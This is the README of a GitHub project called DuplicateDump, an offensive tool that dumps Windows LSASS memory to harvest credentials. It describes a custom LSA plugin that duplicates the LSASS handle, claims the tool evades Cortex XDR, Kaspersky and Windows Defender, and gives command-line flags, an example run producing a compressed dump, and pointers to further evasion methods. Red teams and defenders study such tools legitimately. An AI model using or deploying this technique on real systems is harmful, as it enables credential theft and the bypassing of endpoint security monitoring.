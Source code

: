 # DuplicateDump 
DuplicateDump is a fork of [MirrorDump](https://github.com/CCob/MirrorDump) with following modifications:

- DInovke implementation
- LSA plugin DLL written in C which could be clean up after dumping LSASS. MirrorDump compile LSA plugin as .NET assembly which would not be unloaded by LSASS process. That's why MirrorDump failed to delete the plugin.
- PID of dump process (i.e., DuplicateDump) is shared to LSA plugin through named pipe
- Passing value "0" instead of LSASS PID to MiniDumpWriteDump. This prevent MiniDumpWriteDump from opening its own handle to LSASS

DuplicateDump add custom LSA plugin that duplicate LSASS process handle from the LSASS process to DuplicateDump. So DuplicateDump has a ready to use process handle to LSASS without invoking OpenProcess.

## Testing

By loading DuplicateDump in memory, it was able to dump LSASS memory without detection o

- Cortex XDR
- Kaspersky Enterprise
- Windows Defender

## Usage

Compile LSA plugin (export either SpLsaModeInitialize or dllMain function) and provide the full path of DLL to DuplicateDump

```shell
.\DuplicateDump.exe --help
  -f, --filename=VALUE       The path to write the dump file to
  -p, --plugin=VALUE         Full file path to LSA plugin
  -c, --compress             GZip and delete the dump file on disk
  -d, --DebugPriv            Obtain SeDebugPrivilege
  -h, --help                 Display this help
```

Example 

```
.\DuplicateDump.exe -f test -c -p C:\LSAPlugin.dll
[+] Loading LSA security package
[+] Named pipe connected and replying with current PID 6492
[+] Found duplicated LSASS process handle 0x3d0
[+] Compressed dump file saved to test.gz
```

## Improvement

- DuplicateDump use DInvoke to call API AddSecurityPackage to load a LSA plugin. You could use RPC call without having to invoke that API call directly. Check details in XPN's [blog post](https://blog.xpnsec.com/exploring-mimikatz-part-2/)

- Recently, splinter_code discovered that SecLogon could be leveraged to dump LSASS. Strongly recommend you to study his [blog post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html).

## References

* https://github.com/CCob/MirrorDump
* https://rastamouse.me/dumping-lsass-with-duplicated-handles/
* https://github.com/jfmaes/SharpHandler

